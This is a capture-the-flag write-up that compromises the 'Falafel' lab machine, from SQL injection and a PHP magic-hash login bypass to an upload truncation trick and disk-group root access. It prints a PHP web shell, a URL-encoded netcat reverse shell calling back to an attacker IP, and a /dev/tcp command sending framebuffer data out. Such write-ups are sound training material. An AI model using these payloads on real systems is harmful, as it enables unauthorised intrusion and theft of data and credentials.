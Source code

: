 **Initial Recon**

Nmap

![image](https://user-images.githubusercontent.com/88967140/178944865-a3ef8183-1cd8-4fed-ae77-66f69aceacd8.png)

Web Directory Enumeration (Gobuster)
![image](https://user-images.githubusercontent.com/88967140/178944919-596a497a-5a90-444c-9b73-c7029cb28908.png)
![image](https://user-images.githubusercontent.com/88967140/178944927-a6a217c7-5192-4961-bd8d-f18cba0dd4a2.png)

* cyberlaw.txt appeared to be an intriguing text page that revealed a user named chris.
* ![image](https://user-images.githubusercontent.com/88967140/178945084-83ed301e-ba19-4c43-ada6-9f99fe908af5.png)
</br>
</br>

**Initial Foothold**

SQL Injection

Since there wasn't anything else other than the login form, I captured the login POST via Burp and used it in `sqlmap`.
![image](https://user-images.githubusercontent.com/88967140/178946925-b0d2ebe8-d070-4991-92ed-030cef796d44.png)
![image](https://user-images.githubusercontent.com/88967140/178946947-2a01e5a4-efca-491f-b15f-a59adc17788d.png)

Sending different usernames in the login form returned different results - 
![image](https://user-images.githubusercontent.com/88967140/178949194-20b06a3f-c7de-47b4-91ab-7ad42d387bf1.png)
![image](https://user-images.githubusercontent.com/88967140/178949227-3d73042b-ec92-49e0-9b8a-2ce02c366be2.png)
![image](https://user-images.githubusercontent.com/88967140/178949211-e65cf870-43d0-4f3a-a36a-a08d21bc77ab.png)

Notice how entering `admin` as the username would show `Wrong identification` in the response, but using `test` would show `Try again..`.

From this, it can be deduced that this login form is vulnerable to a boolean-based blind injection (the username = parameter).

So basically, "Wrong identification" = TRUE, "Try again.." = FALSE.

SQLMap
![image](https://user-images.githubusercontent.com/88967140/178950269-cb0b93b3-6c02-4b91-b68f-905466743b9f.png)

Effectively we can use `Wrong identification` to see if we're on the right track. All we're doing here is dumping credentials from `falafel` database.

![image](https://user-images.githubusercontent.com/88967140/178951074-60df6e3e-7bd2-4218-bab1-63295b690501.png)

PHP Type Juggling

Notice how the password for admin is hashed - it begins with 0e. We can try using magic tables to bypass the authentication and get into the account since 0 to the exponent of 462 is still 0. Right here we'll be abusing PHP's Loose comparison weakness.

* Magic Hashes

For this, we'll be using MD5 “Magic Number" (from https://www.whitehatsec.com/blog/magic-hashes/) 240610708 as the MD5 hash for this string would also start with 0e. As a result, because both are treated as 0, this magic hash would collide with other hashes and compare to be **true**.

I successfully logged in by using `240610708` as the password for `admin`.

![image](https://user-images.githubusercontent.com/88967140/178952959-d8c94975-1d82-4e92-9496-8e8686a450d5.png)
![image](https://user-images.githubusercontent.com/88967140/178952977-b66d8f8c-c6f0-405b-a8bd-51cdfb9ff58d.png)

At the start, I tried to upload a .php file to see if I could get an easy PHPreverse shell.
![image](https://user-images.githubusercontent.com/88967140/178953133-25763a14-7af2-4356-96e9-3f48070d1dde.png)
From this image, we can clearly see .php files won't work.
</br>
</br>

**File Name Truncation**

What I did was create a file with 251 characters using `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251`, add .png at the end of the file, and upload it. 

![image](https://user-images.githubusercontent.com/88967140/178954298-a5a63f19-d81b-425c-8482-bba311b7e6a6.png)

Interestingly enough, the output mentioned the file name being too long and shortening it, which turned out to be from 255 characters to 236.
![image](https://user-images.githubusercontent.com/88967140/178954663-adad24d9-8614-4fe3-96a5-111256cfe655.png)
</br>
</br>

**PHP Reverse Shell**

So now my idea was to make it so that the .png part gets cut off by the upload system and we're left off with <file>.php from which we can execute PHP code.
I used `vi` to insert this arbitrary PHP execution code in the file we're going to upload next:
 
 `<?php echo system($_REQUEST['leo']) ?>`
and set up `nc -lvnp 443` on our other terminal.
 
So now we send a request with `leo=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f` to `http://10.10.10.73/uploads/<folder from CMD output>/<file name>.php` as the payload.
* Important to URL encode it - otherwise the payload won't work.
 
 ![image](https://user-images.githubusercontent.com/88967140/178956561-cdabbc78-1a05-4a42-8880-6d899fa95fa5.png)
 
  And finally I got the shell.
 </br>
 </br>
 
 **Privilege Escalation**
 **www-data -> moshe (Password reuse)**

 Web directory enumeration showed this interesting .php file `connection.php`, which, as it turns out, included credentials for `moshe` user.
 ![image](https://user-images.githubusercontent.com/88967140/178957004-fd97e9a1-62c9-46d6-bb75-482d5e5dcf0d.png)
 
 Reusing those credentials, I was able to SSH in as `moshe` and read user.txt.
 ![image](https://user-images.githubusercontent.com/88967140/178957521-383fa639-74d0-4138-9f0c-169c2dfe3b37.png)
 </br>
 </br>
 
 **moshe -> yossi**
 
 `moshe` was part of many groups and video looked interesting.
 ![image](https://user-images.githubusercontent.com/88967140/178964905-4dc73b87-8b19-460c-aae5-143f9c8739b3.png)
 
It should be noted that users in the `video` group can access video capture devices and there's one framebuffer for each monitor which can be accessed through `/dev/fb[x]`.

I moved this file to my Kali using `cat /dev/fb0 > fb0.data` and `cat fb0.data > /dev/tcp/10.10.16.3/8000`.

Afterwards, I used gimp to open this file as `Raw image data`, set the width and height according to `/sys/class/graphics/fb0/virtual_size` and got this picture.
![image](https://user-images.githubusercontent.com/88967140/178964970-2beaa2c6-99d2-4056-a9a2-82aa84bfbcbe.png)
</br>
</br>

**yossi -> root**

So now that I got the password, I used it to SSH in as `yossi`.
![image](https://user-images.githubusercontent.com/88967140/178967068-03ce0714-b4c6-49cc-adfe-123314ae11e4.png)

We can see that the user is part of `disk` group. This should be kept in mind because members of the disk group can read and alter any files on any hard drive, which is mostly equivalent to having root access.

https://wiki.debian.org/SystemGroups tells us that `The group disk can be very dangerous, since hard drives in /dev/sd* and /dev/hd* can be read and written bypassing any file system and any partition, allowing a normal user to disclose, alter and destroy both the partitions and the data of such drives without root privileges. Users should never belong to this group.`
</br>
</br>

**Getting root Shell**

With this information at my disposal, I decided to `cat` RSA private key for `root` since I'd be able to SSH in as root using that exact key.
![image](https://user-images.githubusercontent.com/88967140/178967911-6144c2d0-46fc-43da-b919-657f69bb192a.png)

![image](https://user-images.githubusercontent.com/88967140/178968091-07014aa9-39b2-4841-8cb6-ad58c8bc3736.png)



`



 
 
 
